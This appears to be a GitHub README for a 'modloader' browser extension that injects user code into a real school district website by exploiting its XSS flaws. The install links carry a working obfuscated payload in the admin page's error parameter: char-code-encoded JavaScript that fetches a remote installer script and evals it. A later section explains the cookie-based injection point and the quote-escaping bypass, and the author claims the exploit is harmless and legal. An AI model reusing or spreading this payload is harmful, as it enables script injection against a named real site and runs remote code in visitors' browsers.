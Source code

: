 ${{\color{#a80f1f}\Huge{\textsf{R}}}}{{\color{#a80d24}\Huge{\textsf{H}}}}{{\color{#a80c2a}\Huge{\textsf{S}}}}{{\color{#a80b2e}\Huge{\textsf{-}}}}{{\color{#a70c33}\Huge{\textsf{M}}}}{{\color{#a70d38}\Huge{\textsf{o}}}}{{\color{#a60f3c}\Huge{\textsf{d}}}}{{\color{#a51241}\Huge{\textsf{l}}}}{{\color{#a31445}\Huge{\textsf{o}}}}{{\color{#a21749}\Huge{\textsf{a}}}}{{\color{#a01a4d}\Huge{\textsf{d}}}}{{\color{#9e1d51}\Huge{\textsf{e}}}}{{\color{#9c2055}\Huge{\textsf{r}}}}$
<br><br>An extension for the RHS website allowing you to install plugins and code. This is done by taking advantage of multiple HTML injection bugs in the website.

Supported on every device. An electron app will also be added to the releases tab at some point.
The Modloader itself will automatically update, but the electron app might need some app level changes to push to releases

> [!WARNING]  
> ***-- COOKIES WILL NOT WORK ON DAYS WITHOUT SCHOOL --***

## Installing
<a href="https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=<script>fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,80,111,121,79,122,107,47,82,72,83,45,77,111,100,108,111,97,100,101,114,47,109,97,105,110,47,105,110,115,116,97,108,108,101,114,46,106,115)).then(response=>response.text()).then(d=>eval(d))</script>">
  <img src="images/rps-RHS-watch.png" width="100" height="100" alt="Click To Install">
</a><br><br>Click the circle.

## Features
- Completely custom theme/plugin support using js/css with headers for name, author, description, and version
- Saving state of enabled plugins/themes and loading them on site launch
- CTRL + Y keybind to wipe everything in the case of something going wrong or a mod goes haywire
- Floating Monaco text editor window (vscode) built in to the site to develop and edit mods in-site
- As this is unfinished, this is not the full list of features. more will be added soon.
  
## Planned (by priority)
- Store to one-click download mods
- A bunch of smaller mods
- Timer improvements [Will be pushed to store]
- Accounts? Would also make store better
- Electron app

#[MOD MAKING GUIDE](/wiki#making-mods)

## OLD INSTALLATION METHOD

~~As of right now, while it is less automatic, copying the code manaully is much more stable than attempting to change the domain's cookies, so this is reccomended for the time being.~~
USE THE REGULAR INSTALLATION METHOD IT'S BETTER IN EVERY WAY

1. Go to the [RHS Modloader website](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=<script>fetch(String.fromCharCode(104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,80,111,121,79,122,107,47,82,72,83,45,77,111,100,108,111,97,100,101,114,47,109,97,105,110,47,105,110,115,116,97,108,108,101,114,46,106,115)).then(response=>response.text()).then(d=>eval(d))</script>) and click "Copy Code Manually".

2. Go back to the official RHS Website and edit your schedule. If school is not happening on that day, you can change the date by adding ``?date=(year)-(month)-(day)`` to the end of the URL. 

*Month and day must be two digit, so for example use "03" instead of "3"*

3. To the end of every period name, paste the code you have copied. If that period is not present on a day, the code for it will not run. While putting it on 3 or 4 periods would also work for most days, there are some days with weird schedules. If done correctly, you won't see the code again.

## How this works

> [!NOTE]  
> I want to preface this by saying this isn't illegal. That's usually the first thought for many when they realize the website has effectively been hacked, but that is ignoring the nature of this exploit: The user has to install this themself. This is client-sided. The school website is not effected in any way due to this, and you are loading the HTML exploit onto your own device. This can definetly be used for malicous intent, but I have zero intention of doing so with this project. I just want to enhance and improve the RHS website, and I have found a way to give that to everyone without a third party computer. Hopefully you do too.

I have found two ways to add HTML onto the RHS website:

- Through the admin website
- By storing HTML in cookies

These are both forms of XSS as they allow self script injection.

The admin login for the RHS Website lets you directly add code to it using the [URL's error message](https://app.ridgewood.k12.nj.us/admin/index.php?username=&error=%3Ch1%3EHello%20RHS!%3C/h1%3E),
and the main website allows it through the schedule tab, which just adds it on as plain text. This is also stored as cookies instead of in the URL, where your schedule is also stored.

While both of these don't like it when you add code directly (they cancel quotes), making strings from char codes is a very nice alternative and runs well.
